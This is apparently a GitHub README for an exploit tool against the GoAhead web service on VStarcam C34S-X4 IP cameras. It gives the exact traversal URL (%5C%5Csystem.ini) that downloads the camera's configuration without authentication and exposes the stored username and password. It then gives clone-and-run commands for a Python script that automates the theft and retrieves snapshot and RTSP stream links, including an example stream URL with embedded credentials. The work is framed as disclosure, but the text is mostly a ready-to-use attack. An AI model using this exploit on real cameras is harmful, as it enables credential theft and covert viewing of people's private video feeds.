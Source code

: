 ## Authentication Traversal
The Vulnerability of GoAhead Service on VStarcam C34S-X4 that allows you to download system.ini configuration file and get login and password.
--
## !WARNING!
The author is trying to draw the attention of the developers to the problem and I am not responsible for the harm caused to you or by you.
--


# IMPLEMENTATION

Еo perform the vulnerability, you must log in to the camera interface without authorization. Then, after the forward slash, you must add %5C%5Csystem.ini
and the file will start downloading. When you open the file, you will see your username and password written together. I have already written a small program
that interacts with the ONVIF protocol and receives images from the camera and a link to the RTSP stream.

# STEPS
1) To use it you have to install [python3](https://www.python.org)
[onvif_zeep](https://github.com/FalkTannhaeuser/python-onvif-zeep) and [requests](https://pypi.org/project/requests/)
```sh
git clone https://github.com/Retr0-code/auth-treversal
pip3 install -r requirements.txt
chmod +x GetInfo.py
python3 GetInfo.py --help
```
<br>
2) You can go to you browser and enter this link <b>http://ip:port/%5C%5Csystem.ini</b>
(You must change ip to address of camera and port to port that web-server run on).
<br>

![MozilaV.png](https://github.com/Retr0-code/auth-treversal/blob/main/Images/MozilaV.png)

<br>
Or you can use

```sh
python3 GetInfo.py --host <camera ip> --port <web-server port>
```

and than read as text downloaded file.
<br>

![PythonLogPass.png](https://github.com/Retr0-code/auth-treversal/blob/main/Images/PythonLogPass.png)

<br>
3) Now you can log in to web-panel.
<br>

![webPanel.png](https://github.com/Retr0-code/auth-treversal/blob/main/Images/webPanel.png)

Or you can use 

```sh
python3 GetInfo.py --onvif 10080 --host 192.168.0.58 --port 8888
```

and you get links to snapshots and RTSP stream link.
To get stream you have to specify login and password like this: <b>rtsp://username:password@ip:port/path/to/stream</b> In my case link looks like
this rtsp://admin:888888@192.168.0.58:554/udp/av0_1
<br>

![OnvifShow.png](https://github.com/Retr0-code/auth-treversal/blob/main/Images/OnvifShow.png)
